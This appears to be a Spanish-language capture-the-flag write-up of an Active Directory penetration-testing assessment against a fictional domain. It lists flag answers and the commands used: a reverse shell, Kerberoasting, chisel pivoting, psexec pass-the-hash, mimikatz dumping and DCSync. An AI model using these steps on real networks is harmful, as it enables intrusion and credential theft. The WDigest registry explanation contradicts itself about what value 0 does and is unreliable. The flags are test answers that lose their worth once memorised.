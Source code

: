 # Enumeración y Ataques a AD - Evaluación de Habilidades Parte I

## Escenario

>Un miembro del equipo inició una prueba de penetración externa y fue trasladado a otro proyecto urgente antes de que pudiera terminar. El miembro del equipo pudo encontrar y explotar una vulnerabilidad de carga de archivos después de realizar un reconocimiento del servidor web externo. Antes de cambiar de proyecto, nuestro compañero de equipo dejó un shell web protegido con contraseña (con las credenciales: **`admin:My_W3bsH3ll_P@ssw0rd!`**) en su lugar para que comenzáramos desde el directorio **`/uploads`**. Como parte de esta evaluación, nuestro cliente, Inlanefreight, nos autorizó a ver hasta dónde podemos llegar y está interesado en ver qué tipos de problemas de alto riesgo existen dentro del entorno de AD. Aproveche el shell web para obtener un punto de apoyo inicial en la red interna. Enumere el entorno de Active Directory en busca de fallas y configuraciones incorrectas para moverse lateralmente y, en última instancia, lograr comprometer el dominio.

>Aplique lo que aprendió en este módulo para comprometer el dominio y responda las preguntas a continuación para completar la parte I de la evaluación de habilidades.

## Preguntas

1. **Escribe el contenido del archivo flag.txt al escritorio del administrador del servidor web**
	- [x] **`JusT_g3tt1ng_st@rt3d!`**

>Al ir a la ruta indicada donde estaba la Web Shell utilizamos las credenciales especificadas para iniciar sesión, luego simplemente creamos una Reverse Shell en [revshells.com](https://www.revshells.com/), especificando el puerto en cual estaríamos en escucha.
	![[ReverseShells.com.png]]

>Este comando lo pudimos copiar y ejecutar en la web shell y obtener una reverse shell, donde pudimos luego navegar al directorio y obtener la flag.
>	![[primerflag.png]]

2. **Kerberoast una cuenta con el SPN MSSQLSvc/SQL01.inlanefreight.local:1433 y escribe el nombre de la cuenta como respuesta**
	- [x] **`svc_sql`**

>Para lograr esto, nos aprovechamos de la web shell y subimos la herramientas **PowerView.ps1**, para luego importarla y ejecutar el siguiente comando de búsqueda:
>	![[svc_sql.png]]

3. **Descifrar la contraseña de la cuenta. Enviar el valor en texto claro.**
	- [x] **`lucky7`**

>Para lograr crackear el hash de forma offline, ejecutamos el siguiente comando:

```powershell
Get-DomainUser -Identity svc_sql | Get-DomainSPNTicket -Format Hashcat | Export-Csv .\hash_scv_information.csv -NoTypeInformation
```

>Con esto transferimos la información del comando **Get-DomainSPNTicket** a un archivo con nombre **hash_scv_information.csv**, esto realizo por comodidad de poder copiar y pegar el Hash en un archivo y luego utilizar **Hashcat** contra el archivo.
>	![[hashcat_svc_sql.png]]

>Ahora ya tenemos un Set de Credenciales que podemos usar luego **svc_sql:lucky7**. Cabe destacar que estos ataques solo tienen éxito debido a la débil contraseña que tiene configurada las cuentas.

4. **Escribe el contenido del archivo flag.txt en el escritorio de Administrator en MS01**
	- [x] **`spn$_r0ast1ng_on_@n_0p3n_f1re`**

>Luego de hacer un reconocimiento en el sistema vemos que estamos **WEB-WIN01**, además que tenemos otra interfaz de red **Ethernet1** con la Dirección **172.16.6.100**. Descubrimos que **MS01** es el nombre del Host en **172.16.6.50**, por lo que tenemos conexión desde nuestra máquina actual sobre la cual tenemos control.

>Crearemos una **PSSession** para conectarnos mediante WinRM a la máquina **MS01**, esto lo podemos lograr gracias a las credenciales de **svc_sql** que conseguimos descifrar anteriormente.

![[PSSession-MS01.png]]

>Ahora otra forma de poder confirmar esto, es realizando un **PortForwarding** con **chisel**, por lo que simplemente transferimos la herramienta y luego la iniciamos en modo servidor en el host de Pivoting que **WEB-WIN01**, luego en nuestra máquina de atacante nos conectamos al servidor de Chisel, consiguiendo así un PortForwarding, para luego utilizar **proxychains** y ver si podemos confirmar conexión con la máquina.

```shell
.\chisel.exe server -v -p 1234 --socks5 # En el Servidor de Pivoteo
./chisel client <Dirección IP>:1234 socks # En la máquina Atacante
```

>Con esto ya tenemos la conexión procedemos al uso de **Proxychians** con **CrackMapExec**.

![[Proxychains-CrackMapExec.png]]

>Al ver **(Pwn3d!)**, confirmamos que podemos conectarnos a dicha máquina por lo que procedemos a utilizar **xfreerdp** para conectarnos a la máquina, de igual manera podemos hacerlo mediante **Evil-WinRM** o **Psexec.py**.

>Por lo que realizamos la conexión:

```shell
proxychains psexec.py INLANEFREIGHT.LOCAL/svc_sql:lucky7@172.16.6.50
```

>De esta forma logramos obtener la sesión y conseguimos la contraseña en el directorio.

![[Flag2.png]]

5. **Busque credenciales de texto claro para otro usuario de dominio. Envíe el nombre de usuario como respuesta.**
	- [x] **`tpetty`**

>Al ver que nos están solicitando una Contraseña en texto claro podemos intentar transferir la herramienta **Mimikatz** a dicha máquina para realizar una búsqueda de la misma. Esto lo podemos hacer fácilmente mediante un copiar y pegar del ejecutable desde nuestra máquina de atacante hacia el escritorio de **MS01**, estableciendo una conexión **RDP** con **proxychains** y **xfreerdp**

```shell
proxychains xfreerdp /u:svc_sql /p:lucky7 /v:172.16.6.50
```

>En este punto podemos tanto seguir operando mediante RDP o simplemente operar desde la conexión establecida con **psexec**.

>Ya con la herramienta en la máquina podemos ejecutar **mimikatz** en búsqueda de contraseña en texto claro para los usuarios, esto se puede hacer usando:

```c
privilege::debug
serkulsa::logonpasswords
```

>Pero no devuelve ninguna contraseña en texto claro, por lo que hacemos una búsqueda en nuestras notas y vemos lo siguiente en la clase **LLMNR/NBT-NS Poisoning** 

- ***`LLMNR y NBT-NS`** son componentes de Microsoft Windows que sirven como métodos alternativos de identificación de hosts que pueden ser usados cuando falla DNS. Si falla DNS, por lo general, preguntará a las otras máquinas en al red local para la dirección correcta vía **LLMNR**, Si **LLMNR** falla **NBT-NS** será usado, este identifica sistemas en una red local mediante su nombre de **NetBIOS**, utiliza el puerto **`137` UDP**.*

>En esta clase intentamos realizar un envenenamiento en la red con **Respoder**, pero al final de la clase nos dan que una forma de de evitar el ataque es Deshabilitar **LLMRN/NBT-NS** lo que evitaría ver las contraseña en texto claro si usáramos herramientas como **mimikatz**, por lo que es posible que entonces debamos habilitar dichos proveedores de autenticación. En concreto verificamos que aquel que proporciona la vulnerabilidad de Contraseñas en Texto Claro si esta habilitado es **WDigest**, explicación más afondo en el [articulo](https://ivanitlearning.wordpress.com/2019/09/07/mimikatz-and-password-dumps/#:~:text=From%20the%20table%20above%2C%20you%20can%20see%20that%20Windows%207%2C%208%2C%20Server%202008%20R2%20and%20Server%202012%C2%A0%20are%20by%20default%20unprotected%20and%20will%C2%A0leak%20plaintext%20wdigest%20passwords%20via%20mimikatz.%20However%2C%20if%20you%20add%20the%20DWORD%20registry%20keyword%20UseLogonCredentialand%20set%20to%200). 

>En dicho articulo vemos que para deshabilitar WDigest se puede hacer de la siguiente forma:

```shell
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 0
```

>El valor **0** significa deshabilitar, por lo que el valor **1** lo habilitaría.

![[CambioExitosoWDigest.png]]

>Para luego confirmar si el cambio fue exitoso ejecutamos la siguiente petición:

```shell
reg query "HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest"
```

>Vemos que cambiamos el valor de **UseLogonCredential** a 0

![[UseLogonCredentials1.png]]

>Ahora si volvemos a ejecutar Mimikatz lograremos ver las credenciales es texto plano, si es que el sistema almaceno alguna en la memoria. Pero antes primero debemos reiniciar.

```
shutdown /r /t 0 /f
```

>Ahora si, ejecutamos **sekurlsa::logonpasswords**, y esperamos a encontrar el usuario.

![[tpettyPassword.png]]

6. **Escribe la contraseña en texto claro de dicho usuario**
	- [x] **`Sup3rS3cur3D0m@inU2eR`**

>Arriba la respuesta. :)

7. **¿Qué ataque puede realizar este usuario?**
	- [x] **DCSyc**

>Para lograr esto simplemente descargamos **SharpHound.exe** en la máquina **WEB-WIN01**, y la ejecutamos obteniendo el archivo **.zip** que debemos de cargar en **BloodHound**.

![[SharpHound.exe.png]]

>Luego utilizamos una herramienta que podemos ver en la imagen **PSUpload.ps1**, módulo que utilizaremos parar cargar dicho archivo .zip en nuestra máquina de atacante.

>Creamos un servidor de carga **uploadserver**, con python y cargamos el archivo.

![[cargadearchivos.png]]

>Cargamos los archivos en BloodHound y podemos ver que podemos realizar el Ataque **DCSync**

8. **Tome el control del dominio y envíe el contenido del archivo flag.txt en el escritorio de Administrator en DC01**
	- [x] **`r3plicat1on_m@st3r!`** 

>Para poder realizar el ataque utilizaremos **proxychains secretsdump.py** para dumpear los hashes.

![[HashesAdminDC.png]]

>Ahora que tenemos dichos hashes LMHASH:NTHASH, podemos utilizar estos hashes para autenticarnos al DC con **psexec.py**.

```ruby
proxychains psexec.py INLANEFREIGHT.LOCAL/administrator@172.16.6.3 -hashes aad3b435b51404eeaad3b435b51404ee:27dedb1dab4d8545c6e1c66fba077da0
```

>Ya conectados podemos ir a Desktop y visualizar la flag final.

![[FlagFinal1.png]]


